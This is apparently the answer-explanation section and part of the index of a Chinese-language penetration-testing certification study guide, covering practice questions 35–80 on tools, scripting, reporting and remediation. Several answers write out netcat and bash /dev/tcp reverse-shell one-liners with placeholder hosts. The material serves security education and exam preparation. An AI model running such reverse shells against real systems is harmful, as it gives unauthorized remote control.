自定义词表（`CeWL`）生成器是一个 `Ruby` 应用程序，允许测试人员根据 `URL` 和深度设置搜索网站，然后从找到的文件和网页生成词表。对目标组织网站运行 `CeWL` 可以帮助生成自定义词表。如果您已收集了有关目标组织的大量信息，构建自定义词表尤其有用。

### 35. D.
在这种情况下，问题特别指出“名称解析请求”。在这种情况下，`Responder` 是最佳选择。`Responder` 是一个工具包，用于回答网络上 Windows 系统的 `NetBIOS` 查询。`Tcpdump` 是一种数据包分析器软件实用程序，可监视并记录在网络和执行它的计算机之间传输的 `TCP/IP` 流量。`Ettercap` 是一款免费的开源网络安全工具，用于对 `LAN` 进行中间人攻击。`Medusa` 是一款支持多种协议和服务的暴力登录攻击工具。

### 36. B.
`Shodan` 是一个流行的安全搜索引擎，提供预构建搜索以及工业控制系统、数据库和其他常见搜索查询的搜索类别。`Shodan` 是一个搜索引擎，让用户可以使用各种过滤器找到连接到互联网的特定类型的计算机和设备。有人将其描述为服务横幅的搜索引擎，这些横幅是服务器发送回客户端的元数据。使用 `Shodan` 进行渗透测试需要对横幅有一定的基本了解，包括 `HTTP` 状态码。


## 37. A.
与 `Shodan` 类似，`Censys` 是一款面向安全的搜索引擎。当你在 `Censys` 中深入查看一台主机时，你还会发现 `GeoIP` 信息（如果可用），以及主机所暴露服务的全面汇总，提供更详细的信息。`GeoIP` 指的是通过识别终端的 IP 地址来定位计算机终端地理位置的方法。

## 38. C.
`Sqlmap` 是一个开源工具，用于自动化针对具有数据库后端 Web 应用的 SQL 注入攻击。`Sqlmap` 是一个常用的开源数据库漏洞扫描器，允许安全管理员探测 Web 应用的数据库漏洞。对于此场景，`Sqlmap` 是一个专用的数据库漏洞扫描器，是最合适的工具。

## 39. C.
`Netcat` 是一个开源的网络调试和探索工具，可以使用 `TCP/IP` 协议在网络连接中读写数据。`Netcat` 也是一个流行的远程访问工具，其体积小，便于在渗透测试期间轻松移植到许多系统。在 Linux 上使用 `netcat` 设置反向 shell 的命令如下：`nc \[IP of remote system\] \[port\] -e /bin/sh`
* 在 Windows 上使用 `netcat` 设置反向 shell 的命令如下：`nc \[IP of remote system\] \[port\] -e cmd.exe`
* 使用以下命令将 `netcat` 设置为监听器也相当容易：`nc -l -p \[port\]`

## 40. B and C.
`Netcat` 是一个开源的网络调试和探索工具，可以使用 `TCP/IP` 协议在网络连接中读写数据。`Netcat` 也是一个流行的远程访问工具，其体积小，便于在渗透测试期间轻松移植到许多系统。在 Linux 上使用 `netcat` 设置反向 shell 的命令如下：`nc \[IP of remote system\] \[port\] -e /bin/sh`
* 在 Windows 上使用 `netcat` 设置反向 shell 的命令如下：`nc \[IP of remote system\] \[port\] -e cmd.exe`
* 使用以下命令将 `netcat` 设置为监听器也相当容易：`nc -l -p \[port\]`
* `Ncat` 被设计为 `Netcat` 的继任者，具有相同的功能，包括多种额外功能，如使用 `SSL`、代理，以及发送电子邮件或将 `Ncat` 会话串联起来作为链的一部分以允许枢转等技巧。

## 41. C.
`Responder` 是一个工具包，用于响应网络上 `Windows` 系统发出的 `NetBIOS` 查询。`Responder` 在利用 `NetBIOS` 响应时是一个强大的工具。它可以针对单个系统或整个本地网络，允许你分析或响应 `NetBIOS` 名称服务，假装自己是查询的目标系统。`Responder` 利用对服务响应的信任来告知客户端响应主机是一个合法的服务提供者，导致客户端发送其哈希凭据，而 `Responder` 主机的所有者随后可以使用这些凭据向合法服务器进行身份验证。

## 42. B.
在此场景中，你正在使用条件执行，因此只有一个子句会被执行。因此，在这种情况下，`if` 子句后面的代码将被执行，使得 `elif` 或 `else` 子句无法执行。条件执行允许开发人员编写仅在满足特定逻辑条件时执行的代码。最常见的条件执行结构是 `if.. then ..else` 语句。

## 43. B and C.
鉴于此场景，脚本中不需要包含单词 `let`，因此可以将其删除，并且在 `Bash` 中，`=` 的等价物是 `-eq`，它是一个算术二元运算符。完成这些修改后，脚本将按预期工作。

## 44. A.
`PowerShell` 在赋值操作中要求在数组名称前使用 `$`。然后数组的元素以逗号分隔列表的形式提供。选项 B 在 `Bash` 中可用，选项 C 在 `Ruby` 或 `Python` 中可用，而选项 D 不遵循 `PowerShell` 命令的正确语法。`PowerShell` 在声明和使用变量方面要简单得多。你只需记住在变量名称前加上 `$`，无论是设置、更改还是检索存储在该变量中的值。

## 45. A.
你需要创建一个 `Netcat` 监听器，等待来自目标机器的入站 shell。为了获取 shell，`Netcat` 使用 `nc -nvlp 443` 来监听传入连接 使用此语法，你是在告诉 `Netcat`（`nc`）不要解析名称（`-n`），在连接发生时详细输出（`-v`），并在给定的本地端口（`-p`）上监听（`-l`）。

## 46. A.
在此场景中，给定的 `PowerShell` 命令将执行远程脚本。通过使用 `PowerShell` `IEX` 命令，它将调用一个表达式。`IEX` cmdlet 将指定的字符串作为命令进行求值或运行，并返回表达式或命令的结果。`PowerShell` `Invoke-Command` cmdlet 在本地或远程计算机上运行命令并返回命令的所有输出，包括错误。通过使用单个 `Invoke-Command` 命令，你可以在多台计算机上运行命令。

## 47. A.
反向 shell 在端口上打开一个通信通道并等待传入连接。客户端机器充当服务器并向测试者机器发起连接。以下命令即实现了这一点：
* `bash -i >& /dev/tcp/<DESTINATIONIP>/443 0>&1`
* 鉴于选项，选项 A 是最佳选项。选项 B 和 C 不会工作，因为它们使用的是 `<SOURCEIP>` 而不是 `<DESTINATIONIP>`，选项 D 不正确，因为它使用了不正确的语法。

## 48. A.
在 `Bash` shell 中，可以打开网络套接字以通过它传递数据。可以使用 `/dev/tcp/<host>/<port>` 打开 `TCP` 套接字。`Bash` 正在尝试打开到相应套接字的 `TCP` 连接。因此，在此示例中，已执行端口扫描。
* 以下是代码的分解：
* `/bin/bash -i`: 启动一个交互式 `Bash` shell。
* `\> &/dev/tcp/<host>/<port>`: 将该 shell 管道传输给测试者。
* `0<&1 2>&1`: 将标准输入连接到标准输出。它对标准错误（`2>`）也做同样的处理。

## 49. C.
在此场景中，将客户组织的风险承受能力纳入执行摘要是很重要的。风险承受能力基本上是指组织在投资方面愿意承担多少风险。任何类型的投资都存在风险，但一个人能够承受多少风险就是其风险承受能力。这可能因组织而异。你不能为风险承受能力设定一个固定值。

## 50. D.
执行摘要不应包含技术细节。执行摘要是报告中最重要的部分。它应以清晰的方式撰写，传达报告中的所有重要结论，并使用“外行术语”书写。你应以通俗的语言解释发现了什么，并以客户能够理解的方式描述对业务的风险。

## 51. C.
通用漏洞评分系统（`CVSS`）是评估安全漏洞严重程度的行业标准。它提供了一种根据多种指标对每个漏洞进行评分的技术。安全分析师经常使用 `CVSS` 评级来优先处理响应措施。每个指标都给出描述性评级和数值评分。

## 52. B.
在此场景中，问题指出渗透测试人员正在撰写一份“概述总体风险水平”的报告。鉴于此陈述，测试人员将把此信息包含在执行摘要中。执行摘要是报告中最重要的部分。它应以清晰的方式撰写，传达报告中的所有重要结论，并使用“外行术语”书写。测试人员应以通俗的语言解释发现了什么，并以客户能够理解的方式描述对业务的风险。


## 53. A.
在这种情况下，它询问安全分析师首先应该做什么。一旦漏洞被识别出来，就需要评估风险以及它对组织的影响。评级将决定是否足够安全以继续工作，或者是否需要采取额外的控制措施来降低或消除风险。评级取决于事件发生的可能性和漏洞的严重程度。通用漏洞评分系统（`CVSS`）是用于评定安全漏洞严重程度的框架。`CVSS`使用算法确定三个严重程度评分类别：`Base`、`Temporal`和`Environmental`。分数为数值，范围从 0.0 到 10.0。最严重的是 10.0。根据`CVSS`，0.0 分获得无评级，0.1–3.9 分获得低严重程度评级，4.0–6.9 分为中评级，7.0–8.9 分为高评级，9.0–10.0 分为严重评级。在这种情况下，得分为 10.0，属于严重类别。

## 54. A.
执行摘要是报告中最重要的部分。大多数情况下，它是许多人唯一会阅读的部分，因此应以传达报告所有重要结论的方式撰写，采用“通俗易懂的术语”，换句话说，以清晰易懂的方式让每个人都能理解。执行摘要以通俗英语对风险和业务影响提供了高层次的概述。其目的是简洁明了。它应是非技术性的，以便读者可以审阅并深入了解报告中突出的安全问题。

## 55. A.
结论是你总结报告并提出建议的机会。结论是对测试的最终概述。它应以积极的基调结束，为客户提供支持和指导。

## 56. B, C, and D.
CompTIA 强调了三个重要的任务后清理活动：
* 在渗透测试期间删除系统上安装的任何 shell
* 删除在测试期间安装的任何测试人员创建的账户、凭证或后门
* 删除在测试期间安装的任何工具
漏洞修复是一个后续活动，并不作为测试的一部分进行。测试人员应删除在测试期间安装的任何 shell 或其他工具，以及删除他们创建的任何账户或凭证。

## 57. A.
在这种情况下，最好在经验教训阶段重新审视这种情况。经验教训会议是团队在没有客户在场的情况下聚在一起讨论测试过程和结果的机会。团队成员应自由讨论测试并提出改进建议。经验教训会议是突出测试期间使用的任何创新技术的好机会，这些技术可能在未来的任务中使用。

## 58. B.
渗透测试后，务必撤销你对客户网络所做的一切。最好的做法是在进行测试时仔细记录你所做的一切。这样就不会意外遗漏任何东西。

## 59. A and C.
渗透测试后，务必撤销你对客户网络所做的一切。因此，如果你创建了任何 shell，就需要将其删除。记录你在测试过程中所做的一切也很重要。这样就不会意外遗漏任何东西。目标是将一切恢复到测试前的状态。

## 60. B.
服务完成后应获得客户的验收。这可能包括对最终报告的书面确认。大多数情况下，这包括面对面会议，在会上你可以与客户讨论任务结果并回答他们可能有的任何问题。客户验收标志着任务的结束，是测试人员已完成工作范围的正式协议。

## 61. A.
发现证明是一份由渗透测试人员提供的文档，用于记录他们进行了测试以及出于合规目的的结果。它作为测试人员执行渗透测试的记录。它包括发现的摘要。其意图是用于外部使用，在客户组织之外，以证明已执行渗透测试并突出测试结果。

## 62. D.
在这种情况下，由于测试是由内部初级管理员执行的，公司最好向专业的渗透测试公司创建一份请求提案（`RFP`），以同意评估并向公司提供任何漏洞发现。`RFP`是一份征求提案的文档，通常通过招标流程进行。

## 63. D.
在这种情况下，你正在讨论技术。技术控制也为许多安全威胁提供了有效的防御。有三个主要的补救活动类别。类别为人员、流程和技术。

## 64. B.
在这种情况下，告诉同事的最佳选择是多因素身份验证使用智能卡和 PIN。 多因素身份验证（`MFA`）是一种安全系统，要求从不同类别的凭证中提供一种以上的方法来验证用户身份以进行登录或其他交易。身份验证类别为你所知、你所拥有的和你所是的。

## 65. B.
在这种情况下，你和同事正在讨论你所拥有的东西。物理对象可用作身份验证机制。寻求保护敏感信息和关键资源组织的应实施多因素身份验证。多因素身份验证实现结合了来自不同身份验证类别的两种或更多身份验证机制。身份验证类别为你所知、你所拥有的和你所是的。

## 66. A.
在这种情况下，公共 Web 服务器上正在监听多个高编号端口。最佳建议是禁用不必要的服务，因为客户仅使用端口 `443`。不必要的服务会带来安全风险，因为它们增加了攻击面，为潜在攻击者提供了更多尝试利用系统的途径。

## 67. C.
系统加固，也称为操作系统加固，有助于最大程度地减少安全漏洞。系统加固的目的是尽可能消除安全风险。这通常通过从计算机中删除所有非必要软件程序和实用程序来实现。通过删除未使用的程序、账户功能、应用程序、端口、权限、访问等进行系统加固的目标是，攻击者获得访问网络的机会更少。有几种类型的系统加固活动。它们包括以下内容：
* 应用加固
* 操作系统加固
* 服务器加固
* 数据库加固
* 网络加固

## 68. A.
最佳建议是禁用任何不必要的服务。不必要的服务会带来安全风险，因为它们增加了客户网络的攻击面，为潜在攻击者提供了多种尝试利用系统的途径。攻击面是给定计算设备或网络中可供潜在黑客访问的漏洞的总和。

## 69. A.
本地管理员密码解决方案（`LAPS`）是 Microsoft 用于管理管理凭证的工具。它用于使用 `Active Directory` 随机化本地管理员账户凭证。有限管理员密码协助（`LAPA`）不存在。`Nessus` 是一款漏洞扫描器，而 `Metasploit` 是一个用于执行和攻击网络的利用框架。


### 70. B, E, and G.
在此情况下，由于测试人员能够入侵一台工作站并能够通过网络横向移动，给客户的最佳建议如下：
* 使用多因素身份验证：多因素身份验证（MFA）是一种身份验证方法，在该方法中，只有在计算机用户成功向身份验证机制出示两项或更多证据（或因素）后，才会被授予访问权限。
* 提高最小密码复杂度：复杂密码以独特的方式使用不同类型的字符来提高安全性，使攻击者更难破解。
* 启用全盘加密：全盘加密（FDE）是在硬件级别进行的加密。FDE 通过自动将硬盘上的数据转换为除拥有“撤销”转换密钥的人之外无法理解的形式来工作。

### 71. A.
在此场景中，攻击者使用了重定向。安全分析师应阻止 URL 重定向。URL 重定向是 Web 服务器将用户从一个 URL 发送到另一个 URL 的功能。重定向通常采用自动重定向的形式，使用 HTTP 协议中定义的一系列状态码之一。因此，当 Web 浏览器尝试打开已被重定向的 URL 时，会打开一个具有不同 URL 的页面。

### 72. A, F, and G.
在此场景中，测试人员应建议客户提高密码复杂度要求，因为测试人员能够通过使用字典攻击破解它们。测试人员还应建议所有员工接受安全意识培训，因为当测试人员使用网络钓鱼技术时，是 IT 部门的一名成员泄露了相关信息。测试人员还应建议升级用于 VPN 解决方案的密码套件。密码套件是一组算法，有助于保护使用传输层安全（TLS）或安全套接层（SSL）的网络连接。密码套件通常包含的算法包括密钥交换算法、批量加密算法和消息认证码（MAC）算法。

### 73. A.
在此场景中，测试人员应建议客户启用 HTTP 严格传输安全（HSTS）。HSTS 响应头允许网站告诉浏览器应仅使用 HTTPS 访问，而不是使用 HTTP。它是一种可选的安全增强功能，通过 Web 应用程序使用特殊的响应头来指定。一旦受支持的浏览器收到此头，该浏览器将阻止任何通信通过 HTTP 发送到指定域，而是将所有通信通过 HTTPS 发送。

### 74. A and B.
这些可能是需要立即与客户沟通的时刻。以下是一些常见的渗透测试沟通触发条件。沟通触发条件应在测试阶段完成、发现关键发现或发现之前入侵的迹象时进行。在此场景中，如果系统在尝试测试后变得不可用，并且如果系统显示先前未经授权访问的迹象，则您需要联系客户。

### 75. D.
在此场景中，客户没有预算立即修复发现的所有漏洞。在这种情况下，给客户的最佳建议是先修复最关键的漏洞，然后在资金可用时修复其他关键漏洞。

### 76. B.
在此场景中，由于渗透测试人员发现了关键漏洞，测试人员应立即向客户发出警报并提供发现的详细信息。

### 77. A.
去冲突是指客户与测试人员之间的沟通，以确定检测到的攻击者是否实际上是物理安全评估的一部分。有时可能需要制作一张“免狱卡”，上面有公司内知晓测试的高级官员的紧急非工作时间电话号码，他们可以确认测试人员有权进行所请求的测试。

### 78. B.
术语 *de-escalation* 指的是客户与测试人员之间为停止渗透测试期间使用的任何利用而进行的沟通过程，因为它们可能对客户的网络产生影响。在此场景中，由于网站问题，客户正在流失销售，因此需要停止测试。

### 79. D.
在此场景中，测试人员已完成一个测试阶段并准备进入下一个阶段。这称为 *stages*。在完成测试阶段时，测试人员应联系客户并告知他们已完成一个阶段并继续进行下一个测试阶段。

### 80. A.
如果渗透测试人员发现其客户环境的安全存在关键问题，他们不应等待最终报告的交付。留下关键漏洞未处理，可能会使客户面临不可接受的风险水平并导致潜在的入侵。测试人员应立即通知管理层该问题。

# Index

## A

* 访问
  * 控制台, 124, 234
  * PCI-DSS 要求, 22–23
  * 先前未经授权, 207, 248
* 访问点
  * 无线设备, 205
  * Zenmap 实用工具, 55
* 账户
  * 利用持久性, 126
  * 加固, 201
  * 非活跃, 84, 223
  * 锁定, 197–198
  * 名称, 154
  * 只读, 84, 223
* 目标上的行动阶段, 38
* Active Directory
  * 身份验证, 117
  * 后门账户, 186
  * 域控制器, 201
  * KDC, 116
  * Kerberos 金票, 155
  * 用户, 11
  * 工作站, 110
* Active Directory 联合服务, 201
* ADMIN$ 共享, 131
* 管理员密码, 196
  * 默认, 80, 204–205
  * Zenmap 实用工具, 57
* 采用黑客思维方法, 26
* 高级持续性威胁（APTs）, 37
  * 攻击者, 7
  * 危险, 30
  * 描述, 37, 218
  * 冒充, 217
  * 目标, 7
  * 商业机密, 37
* AFL 工具, 157
* 密码的年龄, 196–198
* 协议
  * 语言, 32
  * MSAs, 12, 30, 39, 220
  * NDAs, 12, 29, 39
  * 不竞争, 12
* aircrack-ng 工具
  * 加密, 222
  * OSINT, 47
  * 密码, 155
  * 射频发射, 65
* aireplay-ng 工具, 66
* airodump-ng 工具, 65
* 修改
  * 描述, 27
  * SQL 注入攻击, 28
* 防病毒软件, 22


# 索引
- Apache 用于横幅抓取, 62
- `API` (应用程序编程接口)
  - 文档, 17
  - `Swagger` 框架, 215
- `APK Studio` 工具, 157, 161
- `APKX` 工具, 157, 161
- 苹果远程桌面 (`ARD`), 124
- 应用程序编程接口 (`API`)
  - 文档, 17
  - `Swagger` 框架, 215
- APTs. *参见* 高级持续性威胁 (APTs)
- 架构图, 17, 215
- `ARD` (苹果远程桌面), 124
- ARP 欺骗
  - MAC 地址, 128, 228
  - MITM 攻击, 110, 112
- `arpspoof -t` 命令, 129
- 脚本中的数组, 162–165, 177, 241
- 汇编级代码, 67
- 资产分类
  - 方法, 78
  - 子网, 85
- 资产子网, 85, 223
- 星号 (`*`) 用于 `traceroute` 命令, 50–51
- `at` 工具, 125
- 攻击和利用概述
  - ARP 欺骗, 110, 112, 128
  - 权威诉求, 98–101, 130
  - 自动任务, 125
  - 徽章克隆, 104–105, 134
  - 蓝牙劫持, 114, 134
  - 蓝牙窃取, 114
  - 商务电子邮件诈骗, 98
  - `chmod` 命令, 131
  - 网络明文传输, 125
  - 点击劫持, 117, 130
  - 编码实践, 118–119
  - 冷启动攻击, 123
  - 命令历史删除, 132
  - 命令注入, 134
  - 控制台访问, 124
  - Cookie 操作, 118
  - `cPassword` 属性, 120
  - 凭据, 114–116, 133
  - 跨站请求伪造, 117
  - 跨站脚本, 117, 128, 135
  - CVE 数据库, 119
  - 去认证攻击, 131
  - 默认账户设置利用, 122–123
  - 拒绝服务, 112
  - 目录遍历, 118, 132
  - 分布式拒绝服务, 112
  - DLL 劫持, 122
  - DNS 缓存投毒, 109
  - DNS 投毒, 109
  - 垃圾翻找, 103–105
  - 出口传感器绕过, 103
  - 诱导, 95–96, 98
  - 紧急故障开放, 105
  - 恶意双胞胎攻击, 113, 127
  - 恐惧因素, 100, 102
  - 跨越围栏, 103–104
  - 文件包含, 118
  - 分片攻击, 114
  - FTP 服务器, 108
  - 隐藏利用, 126
  - HTML 表单, 130
  - 冒充, 95–97, 132
  - 不安全直接对象引用, 117
  - 审问, 95, 98
  - 干扰, 115
  - JTAG 调试利用, 123
  - Karma 攻击, 113
  - Kerberoasting, 121, 130
  - Kerberos 利用, 116
  - 内核利用, 122
  - 键盘记录器, 135
  - LDAP, 121
  - 相似性因素, 100, 102
  - LLMNR, 106–107
  - 锁绕过, 103, 105, 130
  - 锁具开启, 103, 105
  - LSASS, 121
  - MITM 攻击, 129, 132
  - NAC, 112–113
  - 空会话, 133
  - 开放端口, 106
  - OSINT, 127
  - 参数污染, 117
  - 哈希传递, 110
  - 持久化, 125, 131
  - 钓鱼, 94, 96, 127
  - 搭便车, 102, 104, 133
  - 权限提升, 120
  - `PsExec`, 131
  - 竞态条件, 135
  - 重定向攻击, 116
  - 中继攻击, 111
  - 远程代码执行, 123
  - 远程系统管理, 124–125
  - 重复攻击, 115
  - 重放攻击, 110
  - Ret2libc, 120
  - RFID 克隆, 114–115
  - root 执行, 120
  - SAM 数据库, 121
  - SAN, 131
  - 沙箱逃逸利用, 123
  - 稀缺性因素, 99, 101
  - 计划任务, 122
  - 串行控制台连接, 123
  - 服务器, 106
  - 会话劫持, 116, 135
  - shell 升级, 133
  - 肩窥, 96, 98
  - SMB 协议, 107
  - SMiShing 攻击, 94
  - SMS 钓鱼, 97
  - SMTP, 108
  - SMTP 中继, 108
  - SNMPv1 协议, 107
  - 社会工程, 97, 128
  - 社会认同因素, 99, 101
  - 定向钓鱼, 94, 97, 127, 133
  - SQL 注入, 115, 132–133
  - SSL 剥离, 111
  - 存储型跨站脚本, 128
  - 跟随进入, 102, 104
  - TCP SYN Flood 攻击, 128


* 木马, 126
* 通过 PXE 的无人值守安装, 121
* 未加引号的服务路径, 122, 134
* 不安全权限, 122
* 不安全服务, 119
* 紧急程度因子, 99–101
* USB 密钥投放, 96–97
* 语音钓鱼, 95, 97, 134
* VLANs, 113
* 网页抓取, 129
* 鲸鱼式钓鱼, 94, 97
* 白名单设备, 113
* 无线设备信息, 127, 229
* WMI, 124
* 工作站, 106
* WPS 破解, 114

* 发现的证明, 206, 245
* 身份验证
  * 证书固定, 217
  * 去认证攻击, 131
  * HSTS, 248
  * 多因素。 *参见* 多因素身份验证
  * 无线设备, 205
* 权威诉求
  * 示例, 98–101, 130, 227
  * 钓鱼攻击, 233
  * 社会工程学, 128
* 授权
  * 云内容, 39
  * 来源, 34
  * 书面, 11
* 自动运行，禁用, 202
* 可用性问题, 27, 248

## B
* 后门
  * Active Directory, 186
  * 利用持久性, 126
* 徽章克隆, 27, 134, 233–234
* 无线设备的频段, 127, 229
* 横幅抓取, 60–62
* `bash`
  * 历史记录, 234
  * 反向 shell, 242
  * 脚本, 162–163, 166–169, 171–174
* BeEF（浏览器利用框架）工具, 156, 174, 238
* 交战规则中的行为, 8
* bind shell 利用, 160, 239
* 生物识别扫描仪
  * 指纹, 83, 85
  * 多因素身份验证, 200
  * 视网膜扫描, 199
* 黑盒评估
  * 成本, 11
  * 描述, 5
  * 信息收集和漏洞识别, 44–49
  * 网络图, 17
  * 外部攻击, 10
  * 先决条件, 20
  * 范围, 24
  * 策略, 219
  * 测试人员位置, 25
  * 零知识评估, 33, 35
* SQL 注入中的黑名单验证, 132–133, 230
* 黑名单 IP 地址, 30, 219
* 蓝牙劫持, 114, 134, 229
* 蓝牙窃取, 114
* 广播消息
  * 伪造, 110
  * Impacket 工具, 178, 237
* 浏览器利用框架（BeEF）工具, 156, 174, 238
* 暴力破解攻击
  * 凭证, 115
  * Hydra 工具, 237
  * 与彩虹攻击对比, 87, 226
  * 工具, 155, 172
* 预算，范围对其的影响, 36, 219
* 撞击钥匙, 69
* 企业电子邮件泄露, 98

## C
* Cain and Abel 工具, 154
* CAPEC（通用攻击模式枚举与分类）
  * 描述, 68, 221
  * OSINT, 88
* 持卡人数据环境（CDE）, 22
* 脚本中的 case 结构, 169
* Censys 工具
  * 描述, 221
  * 互联网设备, 179, 239
  * IP 地址, 45
* `centralops.net` 网站, 51–54
* CERT（计算机应急响应团队）
  * 描述, 67, 69, 221
  * OSINT, 87
* 证书检查, 63
* 证书固定
  * 身份验证, 38, 217
  * 网络访问控制, 20, 33
* CeWL 工具
  * 密码, 158
  * 词表, 174, 238
* `chage` 命令, 197–198
* `chkconfig` 工具, 126, 234
* `chmod` 命令, 131
* CIA 三元组模型, 216
* 密码套件
  * Censys 工具, 45, 221
  * 升级, 247
* 网络上的明文, 125
* 点击劫持, 117, 130
* 客户验收, 206, 244–245
* `Telnet` 服务中的关闭端口状态, 145
* 代码
  * 汇编级, 67
  * 交叉编译, 80, 86, 226
  * 动态代码分析, 75
  * 远程执行, 123
  * 静态代码分析, 75, 77, 84, 223
  * 不安全实践, 118–119
  * 代码签名, 118
* 冷启动攻击, 123
* 命令历史记录删除, 132, 234
* 命令注入, 134, 229
* 通用攻击模式枚举与分类（CAPEC）
  * 描述, 68, 221
  * OSINT, 88
* 通用漏洞和暴露（CVE）数据库
  * 攻击和利用, 119
  * 描述, 68
  * 旧服务器, 68–69
* 通用漏洞评分系统（CVSS）
  * 示例, 79
  * 风险评分, 207, 225, 242
* 通用弱点枚举（CWE）数据库, 68
* SNMPv1 协议中的社区字符串, 107
* 公司政策


# 索引
* 密码, 36, 216–217
* 用于规划, 216
* 基于合规的评估
  * 描述, 4, 14
  * 发现扫描, 84
  * PCI-DSS 标准, 32
* 合规漏洞
  * PCI-DSS 测试, 72
  * 测试位置, 74
  * 工具, 156–157
* 妥协指标，报告, 37
* 计算机控制制造设备, 75
* 计算机应急响应团队 (CERT)
  * 描述, 67, 69, 221
  * OSINT, 87
* 结论，报告, 189–191, 243
* 保密性
  * CIA 三元组模型, 216
  * 描述, 27
  * 发现结果的, 24
  * 原因, 36, 214
* 控制台访问, 124, 234
* 容器
  * 问题, 74
  * 沙箱逃逸利用, 123
* 脚本中的控制结构, 169–170
* Cookie
  * 操纵, 118
  * 会话劫持攻击, 135
* 企业政策, 36, 217
* 企业税务申报, 46
* `cPassword` 属性, 120
* 凭证暴力破解
  * 描述, 115
  * `Hydra` 工具, 237
  * 尾随, 82
* 凭证扫描
  * 账户, 84
  * 描述, 86, 224
  * 登录信息, 73
  * 结果, 70
  * 系统管理员视角, 69
* 凭证
  * 管理员, 196
  * 攻击, 114–116
  * 默认, 116
  * 硬编码, 119
  * 收集, 114
  * LLMNR/NETBIOS-NS 查询, 133, 228
  * 移除, 206
  * 工具, 172
  * VPN, 209, 247
  * 弱, 116
* 犯罪现场工具, 156
* 关键发现和漏洞
  * 报告, 37, 186–187, 208, 210, 243, 249
  * 建议操作, 207, 248
* 交叉编译代码
  * 旧服务器, 80
  * 目的, 86, 226
* 跨站请求伪造 (CSRF), 117
* 跨站脚本 (XSS) 攻击
  * 描述, 128, 229
  * 示例, 117
  * HTML 注入, 135
* 加密模块, 23
* CSRF (跨站请求伪造), 117
* CVE (通用漏洞和暴露) 数据库
  * 攻击和利用, 119
  * 描述, 68
  * 旧服务器, 68–69
* CVSS (通用漏洞评分系统)
  * 示例, 79
  * 风险评分, 207, 225, 242
* CWE (通用弱点和枚举) 数据库, 68
* 网络杀伤链模型, 38
## D
* DAST (动态应用程序安全测试), 157
* 数据辐射
  * 网络设备, 123
  * 工具, 159
* DDoS (分布式拒绝服务) 攻击, 112
* 去冲突, 183–185, 249
* 降级, 183–185, 249
* 邪恶双胞胎攻击中的去认证帧, 113
* 去认证攻击, 131
* 调试可执行文件, 67
* 欺骗, 81
* 反编译
  * 汇编级代码, 67
  * 可执行文件, 66–67, 157
  * 默认账户设置利用, 122–123
* 默认管理员密码
  * 信息收集和漏洞识别, 80
  * 报告和沟通, 204–205
  * `Zenmap` 实用工具, 57
* 默认凭证攻击, 116
* 默认密码，PCI-DSS 要求, 22
* 否认, 27–28
* 拒绝服务 (DoS) 攻击, 112
* 交战规则中的详细信息, 9
* 无线设备上的 DHCP, 205
* 字典攻击
  * 描述, 82
  * 员工档案, 85, 225
* `dig axfr` 命令, 75
* `Dirbuster` 工具, 158
* 定向天线, 205
* 目录遍历
  * 描述, 118
  * 日志, 132, 230
* 禁用
  * DHCP, 205
  * 不必要的服务, 202, 208, 211, 246
  * 未使用的账户, 201
* 交战规则中的免责声明, 9
* 披露, 27–28
* 发现扫描
  * 描述, 84, 222
  * IDSs, 71
  * IPSs, 71
  * `ping` 扫描, 70
* 磁盘擦除软件, 192
* 处置, 192–193
* 分布式拒绝服务 (DDoS) 攻击, 112
* DLL 劫持
  * 描述, 122
  * 利用持久性, 122
* DNS
  * 缓存中毒, 109
  * `nmap`, 146
  * OSINT, 46
  * 中毒, 109
  * 区域传输, 75
* DNS 服务器
  * LLMNR, 106
  * 端口, 50
  * `Zenmap`, 63
* DNSSEC, 109
* 文档对象模型 (DOM) 跨站脚本攻击, 117
* 文档
  * MSAs, 220
  * 渗透测试规划和范围界定, 16–18
  * 参与后清理阶段, 244
  * 红队评估, 217
  * 报告, 205–207
  * 交战规则, 10


## D
* DOM（文档对象模型）跨站脚本攻击, 117
* 域控制器
  * 端口, 49
  * `Zenmap` 工具, 59, 62–63
* DoS（拒绝服务）攻击, 112
* VLAN 跳转中的双标签, 113
* 降级攻击
  * 描述, 111
  * 恶意双胞胎攻击, 127
  * HTTP, 229
  * MITM, 112
* `Drozer` 工具, 160
* `dsquery user` 命令, 84, 223
* 垃圾翻找
  * 访问徽章, 105
  * 身份验证凭据, 46
  * 描述, 104
  * 光盘, 103
* 动态应用程序安全测试（DAST）, 157
* 动态代码分析, 75
## E
* 出口传感器绕过, 103
* 802.1x 身份验证, 205
* 诱导, 95–96, 98
* 电子邮件
  * 企业电子邮件泄露, 98
  * `HELO` 命令, 54
  * 钓鱼攻击, 11, 96
  * 端口, 49
  * 简单邮件传输协议, 108
* centralops.net 网站上的电子邮件地址, 53
* centralops.net 网站上的电子邮件命名约定, 54
* 辐射
  * 网络设备, 123
  * 工具, 159
* 嵌入式设备, 82–83
* 紧急故障打开, 105
* `Empire` 工具, 155
* 员工简历, 46
* `enable secret` 命令, 205
* 加密
  * `aircrack-ng` 工具, 65
  * 分片攻击, 114
  * Kerberoasting, 121
  * `ncat`, 160
  * PCI-DSS 要求, 22
  * 报告和通信, 208
  * SAN, 131
  * 无线设备, 159, 222
* 枚举过程
  * 信息收集, 72–73
  * `theHarvester` 工具, 76
* 错误消息，详细, 118
* 转义数据，报告, 201
* `/etc/shadow` 文件, 203
* EternalBlue 漏洞利用, 107
* 恶意双胞胎攻击
  * 步骤, 127
  * 任务, 113
* 可执行文件
  * 调试, 67
  * 反编译, 66–67
  * 工具, 157
* 高管简历, 46
* 执行摘要
  * 内容, 211, 242–243
  * 发现, 189
  * 风险等级, 208
  * 测试和结果, 243
* 过期的 SSL/TLS 安全证书, 78
* 漏洞利用链, 81
* Exploit-DB 数据库, 161
* 漏洞利用修改, 81
* 漏洞利用持久化
  * `chkconfig --del` 命令, 234
  * `reg save` 命令, 126
  * 注册表项, 131
  * 计划任务, 122, 125
  * 用户账户, 126
* 漏洞利用概述。*参见* 攻击和漏洞利用概述
* 外部团队, 26
## F
* 设施地图, 17, 215
* 误报
  * 描述, 78, 86, 225
  * 指纹生物识别扫描仪, 85
* 恐惧因素, 100, 102
* 跨越围栏, 103–104
* 文件包含, 118
* 文件共享, 107
* 文件传输, 204
* Telnet 服务中过滤的端口状态, 145
* 发现和补救
  * 保密性, 24, 36
  * 报告。*参见* 报告和通信
  * 风险承受能力, 242
* `Findsecbugs` 工具, 157
* 指纹扫描
  * 假指纹, 83
  * 误报, 85
  * 多因素身份验证, 199
  * `nmap`, 177, 236
* 使用收集的档案对组织进行指纹识别（`FOCA`）, 45
* FIPS 140-2, 23
* 闪存驱动器，粉碎, 192
* 脚本中的流程控制结构, 169–170
